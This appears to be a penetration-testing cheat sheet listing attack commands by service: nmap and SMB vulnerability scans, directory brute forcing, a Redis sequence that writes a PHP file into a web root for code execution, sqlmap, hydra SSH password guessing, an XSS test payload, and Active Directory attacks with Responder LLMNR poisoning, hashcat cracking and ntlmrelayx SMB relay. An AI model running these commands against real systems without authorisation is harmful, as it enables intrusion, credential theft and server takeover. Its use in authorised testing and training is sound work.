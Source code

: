## Initial Enumeration
### Nmap
```
nmap -sS -sC -oN initial_scan.txt {IP}  
nmap -sS -p- -oN all_ports.txt {IP}
```
```
Scripts
nmap -p 445 --script ms-sql-info <host>
nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <host>
nmap --script smb-enum-users.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>
```
### Gobuster 
```
gobuster dir -u http://url -w /location/wordlist/file.txt  
gobuster vhost -u http://url -w /location/wordlist/file.txt  

/usr/share/seclists/Discovery/Web-Content/common.txt  
/usr/share/seclists/Discovery/Web-Content/big.txt  
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
```


### Enum4Linux
```
enum4linux -e options http://[ip]
```

### HTTP Request Banner Grabbing
```
Using Netcat
nc <target ip> 80

This will connect to the webserver which will allow you to send a request command

Head / HTTP/1.0

Hit enter twice as all headers have two spaces between them and the request. This should then 
return the Header of the request

```
### SMB 
```
nmap -v -sS -p 445,139 -Pn --script smb-vuln* --script-args=unsafe=1 -oA smb_vuln_scan_192.168.189.42 192.168.189.42  

showmount -e 10.10.10.10  

smbclient -L 10.10.10.10

nmap -Pn -p445 - open - max-hostgroup 3 - smb-vuln-ms17-010 script <ip_netblock>

```
### Redis

```
Redis - 6379
nmap --script redis-info -sV -p 6379 <IP>

To check if the db is able to apply Server side execution run the following, then try to run the file from the browser.
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK

>info 
>get config *

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
```

### SQL
```
sqlmap -u http://192.168.202.163/login/index.php?id=1 --batch 
--batch bypasses all options when running commands

```

## Enumerating Discovered Ports

### 22 - SSH 
```
nc -vn <IP> 22
  
msf> use scanner/ssh/ssh_enumusers

hydra -L user.txt -P password.txt {IP} 22
```
  
### 21 FTP 
```
Anonymous Login Enabled
ftp {IP}
anonymous - Username
anonymous - Password 
  ls -al 
  
nmap --script ftp-* -p 21 <ip>

Downloads all files in FTP 
wget -m ftp://anonymous:anonymous@10.10.10.10

Connecting in a browser 
ftp://anonymous:anonymous@10.10.10.10
```

### 80/443 HTTP/HTTPS
#### Nikto 
```
nikto -h {URL}
nikto -h {URL} | tee nikto
```

## Subdomains 
### Sublister
```
sublist3r -d url.com
```

## XSS
### Testing if there is a xss vulnerability 
```
<script>alert("testing")</script>

```
```
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” -p (the_responce_from_the_field_intercepted_in_burp)
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” –auto –reverse-check -s
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” –heuristic
xsser –gtk - Launch interface
```

## Active Directory
### Initial Attack vectors
### LLMNR Poisoning
```
python Responder.py -l tun0 -rdw 
hashcat -m 5600 hashes.txt rockyou.txt
```
### SMB Relay
```
gedit Responder.conf
python Responder.py -l tun0 -rdw 
python ntlmrelayx.py -tf targets.txt -smb2support (wait for an event)
```

### Exploits
### Post Exploitation







